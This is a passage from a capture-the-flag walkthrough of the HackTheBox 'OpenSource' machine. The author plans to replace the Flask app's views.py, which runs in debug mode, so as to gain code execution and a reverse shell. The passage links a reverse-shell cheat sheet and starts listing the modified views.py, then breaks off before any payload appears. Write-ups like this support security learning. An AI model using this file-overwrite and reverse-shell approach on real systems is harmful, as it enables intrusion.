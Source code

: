 So using that, I can probably replace the script views.py and maybe get some execution. This will only work if the app is on debug mode and currently it is since we get the debug screen when an error occurs.

<p align="center">
  <img src="/images/walkthroughs/hackthebox/opensource/4_1_error.png" width="90%"/>
</p>

In that screenshot we see that the app is in **/app/app/views.py** so I will prepare a views.py script to replace it and include a custom method to execute certain code on the parameters. You can get a sample of a Python revshell on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python). We are using the original wies.py from the source code previously downloaded:

```python
import os
import socket
import subprocess
from app.utils import get_file_name
from flask import render_template, request, send_file
from app import app

@app.route('/')
def index():
    return render_template('index.html')


@app.route('/download')
def download():
    return send_file(os.path.join(os.getcwd(), "app", "static", "source.zip"))


@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
```